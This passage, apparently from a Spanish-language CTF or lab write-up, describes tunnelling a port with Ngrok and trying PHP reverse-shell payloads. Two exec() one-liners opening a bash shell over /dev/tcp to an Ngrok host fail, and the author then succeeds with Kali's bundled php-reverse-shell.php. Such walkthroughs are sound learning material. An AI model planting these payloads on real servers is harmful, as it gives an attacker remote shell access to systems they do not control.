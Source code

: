 ### Intento de puerto forwarding
Haciendo algo de investigación, al tener la IP dinámica no funciona. Deberemos hacer puerto forwarding con **Ngrok**.

Ante todo, abrimos un **túnel TCP** en el puerto deseado, en este caso, el `4646`.

```
$ ngrok tcp 4646
```

De esta forma, obtenemos una url que redirige a nuestro puerto local.

```
tcp://X.tcp.eu.ngrok.io:XXXXX -> localhost:4646
```

Así pues, podemos actualizar nuestro payload*, a ver si va esta vez.

**shell_ngrok.php**:
```php
<?php exec("bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1") ?>
```

*TAMPOCO VA.*

Probamos otra sintaxis.

**shell_ngrok.php**:
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1'") ?>
```

Pues tampoco.

### Shell ya hecha de Kali Linux
Después de mis nefastos intentos, buscando he encontrado que **Kali Linux** ya incluye una serie de scripts de reverse shell para PHP. Vamos a intentarlo.

**Ruta**: `/usr/share/webshells/php/php-reverse-shell.php`

Finalmente después de editar el archivo con la IP y el puerto deseado, hemos conseguido una conexión!

![Successful Revshell](./img/success_revshell.png)
